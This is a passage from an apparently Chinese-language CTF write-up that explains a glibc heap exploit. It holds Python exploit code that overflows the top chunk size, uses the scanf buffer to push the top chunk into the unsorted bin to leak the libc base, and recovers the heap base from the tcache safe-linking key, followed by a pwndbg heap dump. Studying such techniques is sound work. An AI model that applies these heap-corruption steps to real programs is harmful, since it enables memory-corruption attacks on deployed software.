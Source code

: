具体利用时，还需要处理很多细节，步骤并不像这里说的这么直接。

## 具体攻击流程解析

### 信息泄漏

本次攻击需要我们泄漏堆地址以及 LIBC 基址。

关于 LIBC 基址，只要将堆块释放到 unsorted bin 中再泄漏 fd 即可。这里我们使用 house of orange 所用到的 trick，将 top chunk size 溢出修改后，借用 `scanf()` 的缓冲区来触发 `malloc()`，将 top chunk 释放进入 unsorted bin。

```python
add(1, b"a" * 0x48 + p64(0xd11)) # original top chunk size: 0x??d11
sla(b"> ", b'0'*0xfff+b'2') # trigger realloc to put top chunk into unsorted bin
```

然后，再触发一个溢出来把 fd 读出来，就可以计算出 libc 基址。

```python
free()
add(1, b"a" * 0x50) # overflow
show()
ru(b'a'*0x50)
libc_base = u64(io.recv(6).ljust(8, b'\x00')) - 0x219ce0
success("libc_base: "+hex(libc_base))
free()
add(1, b"a" * 0x48 + p64(0xcf1)) # repair corrupted size
```

关于堆地址，最容易泄漏的是已释放堆块的 fd 指针。在本题中，我们只能接触到 tcache，但这不妨碍我们进行泄漏。

在 GLIBC 高版本中，虽然 tcache chunk 的 fd 指针会进行异或加密，但是用于加密的 key 本身就是堆地址 >> 12，再考虑到 tcache bin 都是单向非循环链表，我们只要泄漏最后面的 chunk 的 fd 指针，就可以拿到堆地址。

```python
free()
add(2, b'a') # this chunk is split from old top chunk in unsorted bin
free()
add(1, b"a" * 0x50) # overflow
show()
ru(b'a' * 0x50)
heap_base = u64(ru(b'\n')[:-1].ljust(8, b'\x00')) << 12 # leak tcache protect key
success("heap_base: "+hex(heap_base))
free()
```

### smallbin to tcache（本题关键）

注意到，现在的堆布局在修复部分数据后，大致为这样：

```pwndbg
Allocated chunk | PREV_INUSE
Addr: 0x5d6c2a054000
Size: 0x290 (with flag bits: 0x291)

Allocated chunk | PREV_INUSE
Addr: 0x5d6c2a054290
Size: 0x1010 (with flag bits: 0x1011)

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x5d6c2a0552a0
Size: 0x50 (with flag bits: 0x51)
fd: 0x5d6c2a055

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x5d6c2a0552f0
Size: 0x90 (with flag bits: 0x91)
fd: 0x5d6c2a055
```